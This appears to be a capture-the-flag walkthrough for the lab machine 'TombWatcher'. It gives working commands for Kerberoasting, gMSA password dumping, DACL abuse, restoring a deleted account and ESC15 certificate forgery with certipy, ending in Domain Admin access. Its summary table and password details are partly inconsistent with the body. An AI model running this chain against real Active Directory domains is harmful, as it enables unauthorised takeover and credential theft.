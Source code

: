 # TombWatcher

```
Difficulty: Medium
Operating System: Windows
Hints: Active Directory, Kerberoasting, ACL Abuse, GMSA, DACL Abuse, Cert-based Escalation

```

### 🏁 Summary of Attack Chain

| Step | User / Access | Technique Used | Result |
| :--- | :--- | :--- | :--- |
| 1 | `john` | **GenericAll on Deleted Object** | Used `john`'s `GenericAll` privilege to restore the soft-deleted `cert_admin` account. |
| 2 | `cert_admin` | **Password Reset** | With the restored object, reset the `cert_admin` password using `rpcclient`, gaining full control over the account. |
| 3 | `Administrator` | **ESC15 Vulnerability** | Used `certipy-ad` to detect an **ESC15 vulnerability** on the `WebServer` certificate template. Exploited this to request a certificate as the `Administrator`. |
| 4 | `Domain Admin` | **Certificate Authentication** | Used the forged `administrator.pfx` certificate to authenticate as a Domain Administrator and perform privileged actions, ultimately leading to a full domain compromise. |


## Initial Enumeration
Running nmap scan (TCP) on the target shows the following results:

```
nmap TombWatcher.htb -sV -A
PORT      STATE SERVICE         VERSION
53/tcp    open  domain          Simple DNS Plus
80/tcp    open  http            Microsoft IIS httpd 10.0
88/tcp    open  kerberos-sec    Microsoft Windows Kerberos
135/tcp   open  msrpc           Microsoft Windows RPC
139/tcp   open  netbios-ssn     Microsoft Windows netbios-ssn
389/tcp   open  ldap            Microsoft Windows Active Directory LDAP
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http      Microsoft Windows RPC over HTTP
636/tcp   open  ssl/ldap        Microsoft Windows Active Directory LDAP over TLS
3268/tcp  open  ldap            Microsoft Windows AD Global Catalog
3269/tcp  open  ssl/ldap        Microsoft Windows AD GC over TLS
5985/tcp  open  http            Microsoft HTTPAPI httpd 2.0 (WinRM)
Domain: tombwatcher.htb
Hostname: DC01.tombwatcher.htb

```

Add to /etc/hosts:
```
10.10.11.72  DC01.tombwatcher.htb TombWatcher.htb
```
Foothold
The initial credentials provided are: henry : H3nry_987TGV!

User
Method 1 - Kerberoasting with ACL Abuse (from henry to alfred)
Recon as Henry: Use bloodhound-python to gather Active Directory information.

Bash
```
bloodhound-python -u henry -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip
```
This reveals that the Alfred user has WriteSPN rights, which is exploitable via Kerberoasting.

Kerberoasting: Use targetedKerberoast.py to add a Service Principal Name (SPN) to Alfred and dump the Kerberos TGS hash.

Bash
```
python targetedKerberoast.py -v -d tombwatcher.htb -u henry -p 'H3nry_987TGV!'

```
Crack Hash: Crack the dumped hash using John the Ripper with a wordlist.

**Access Restricted by HackTheBox Rules**

<!--

Bash

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
The password for Alfred is baXXXXXXXll.

```

![Pass_Cracked](Pictures/htb_Tombwatcher_alfred_hash_pass.png)

Method 2 - GMSA Password Dump (from alfred to ansible_dev$, then SAM and john)
Recon as Alfred: Re-run bloodhound-python with Alfred's newly acquired credentials.

Bash

```
bloodhound-python -u alfred -p 'baXXXXXXXll' -d tombwatcher.htb -ns 10.10.11.72 -c All --zip

```

![Write_SPN](Pictures/htb_Tombwatcher_1_Writespn.png)

No immediate Domain Admin path is found, but it's identified that the Infrastructure group is modifiable.

![Self_Add](Pictures/htb_Tombwatcher_2b_addedself_alfred_infra.png)


Infrastructure Group Escalation: Add Alfred to the Infrastructure group using bloodyAD.


Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u alfred -p 'baXXXXXXXll' add groupMember INFRASTRUCTURE alfred
```

![Added_Infra](Pictures/htb_Tombwatcher_added_alfred_infra.png)

GMSA Password Dump: Use gMSADumper.py to find and dump Group Managed Service Account (GMSA) blobs.

Bash
```
python gMSADumper.py -u alfred -p baXXXXXXXll -d tombwatcher.htb
```
This shows that the Infrastructure group can read the password for ansible_dev$.

![GMS](Pictures/htb_Tombwatcher_ansibledev_dump.png)

Change Passwords via GMSA: Utilize bloodyAD to change the passwords for the SAM and john accounts by leveraging the ansible_dev$ GMSA account's dumped credentials.

![BH_ChnPass](Pictures/htb_Tombwatcher_3b_GMSA_Pass.png)

![SAM](Pictures/Tombwatcher_bloodhound.png)

![Generic_all](Pictures/htb_Tombwatcher_GenericAll_sam_john.png)

Bash

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u 'ansible_dev$' -p ':XXXXXXXXXXX…' set password SAM 'XXXXXXXX'
```

![BH_FPassChng](Pictures/htb_Tombwatcher_4b_sam_pass.png)

![Change_Pass](Pictures/htb_Tombwatcher_sam_pass_chnage.png)

```
bloodyAD --host '10.10.11.72' -d tombwatcher.htb -u SAM -p 'XXXXXXXXXX' set password john 'XXXXXXXXx'

```

![BH_Rl_SAM_JOHN](Pictures/htb_Tombwatcher_5b_sam_write_john.png)


This grants access to the john account, and user.txt can be retrieved.

![Owner](Pictures/htb_Tombwatcher_GenericAll_sam_john.png)
![SAM](Pictures/htb_Tombwatcher_passwd_change_sam_john.png)

**User Flag**

![User_Flag](Pictures/htb_Tombwatcher_john_user_flag.png)



## Root

**Method 1**

Once we log in as john, following our standard approach, we can run WinPEAS looking for possible privilege escalation vectors. After we run WinPEAS, we can notice a path for Active Directory Certificate Services (ADCS) abuse.

DACL Abuse for OU Takeover (from john to cert_admin)
DACL Abuse: Grant john FullControl over the OU=ADCS,DC=TOMBWATCHER,DC=HTB using impacket-dacledit.

Bash
```
impacket-dacledit \
  -action write \
  -rights FullControl \
  -inheritance \
  -principal john \
  -target-dn 'OU=ADCS,DC=TOMBWATCHER,DC=HTB' \
  tombwatcher.htb/SAM:'XXXXXXXXXXXXX'
```

This gives john control over the ADCS Organizational Unit.

Restore & Change cert_admin Password: Inside an Evil-WinRM session as john, identify and restore the deleted cert_admin account, enable it, and reset its password.

PowerShell
```
Get-ADObject -Filter 'isDeleted -eq $true' -IncludeDeletedObjects
Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
Enable-ADAccount -Identity cert_admin
Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "jhvc@4569@" -AsPlainText -Force)
```

Then, confirm the password change for cert_admin using bloodyAD.

Bash

```

bloodyAD --host '10.10.11.72' -d tombwatcher.htb \
  -u john -p 'jhvc@4569@' set password cert_admin 'jhvc@4569@'

```
The cert_admin account is now controlled.

Certificate-Based Privilege Escalation (from cert_admin to Administrator)
Cert Enumeration: Use certipy to enumerate the Certificate Authority (CA) and available certificate templates, looking for vulnerabilities.

Bash
```
certipy find -u cert_admin -p "jhvc@4569@" -dc-ip 10.10.11.72 -vulnerable
```
This reveals the WebServer template with "Enrollee supplies subject: True" and an "ESC15 vulnerability detected".

**Plan A (ESC15 / ESC1): Request a certificate with Client**Authentication and an Administrator UPN using certipy.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' \
  -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -upn 'administrator@tombwatcher.htb' \
  -application-policies 'Client Authentication'
```
Then, use the generated PFX file to authenticate as the Administrator and obtain a shell.

![Admin_cert](Pictures/htb_Tombwatcher_adminpfx.png)

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```
From here, the Administrator's password can be changed, leading to full Domain Administrator access.

**Plan B (Certificate Request Agent Attack - Alternative): If Plan A is not feasible, obtain an Agent certificate.**

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```
Then, impersonate the Administrator by requesting a user certificate on their behalf.

Bash
```
certipy req \
  -u 'cert_admin@tombwatcher.htb' -p 'jhvc@4569@' \
  -dc-ip '10.10.11.72' -ca 'tombwatcher-CA-1' \
  -template 'User' \
  -pfx cert_admin.pfx \
  -on-behalf-of 'tombwatcher\Administrator'
```
Finally, authenticate using the on-behalf-of certificate to retrieve the Administrator's TGT, ccache, or NT hash, granting Domain Administrator privileges.

Bash
```
certipy auth -pfx administrator.pfx -dc-ip 10.10.11.72
```



**Method 2**

The name cert_admin immediately suggested a connection to Active Directory Certificate Services (ADCS). I used certipy-ad to enumerate ADCS for vulnerabilities with the new cert_admin credentials.

Bash

```
certipy-ad find -u cert_admin -p Password01! -dc-ip 10.10.11.72 -vulnerable -stdout -target-ip 10.10.11.72
```

Certipy successfully identified an ESC15 vulnerability on the WebServer certificate template. This vulnerability allows a user with enrollment rights to request a certificate with a custom Application Policy (EKU), which can be abused for authentication.

To exploit this, I requested a new certificate using certipy-ad, impersonating the Administrator user. I injected the Client Authentication EKU and targeted the vulnerable WebServer template.

Bash

```
certipy-ad req -u cert_admin -p Password01! -dc-ip 10.10.11.72 -target DC01.tombwatcher.htb -ca "tombwatcher-CA-1" 
-application-policies 'Client Authentication' -template WebServer -upn Administrator@tombwatcher.htb
```

This command generated a valid administrator.pfx certificate.

![Admin_cert](Pictures/htb_Tombwatcher_adminpfx.png)

**Domain Compromise**

With the forged administrator.pfx certificate, I used certipy-ad's auth module to authenticate as the Domain Administrator. This provided a fully privileged shell (ldap-shell) and confirmed the full compromise of the domain.

Bash

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap-shell
```


From this privileged position, I could add john to the Domain Admins group, dump all domain hashes by retrieving the NTDS.dit file, and access the administrator's profile to retrieve the root.txt flag, successfully rooting the machine.

![Root_Flag](Pictures/htb_tombwatcher_Root_flag.png)


-->

**Pwned! Tombwatcher**

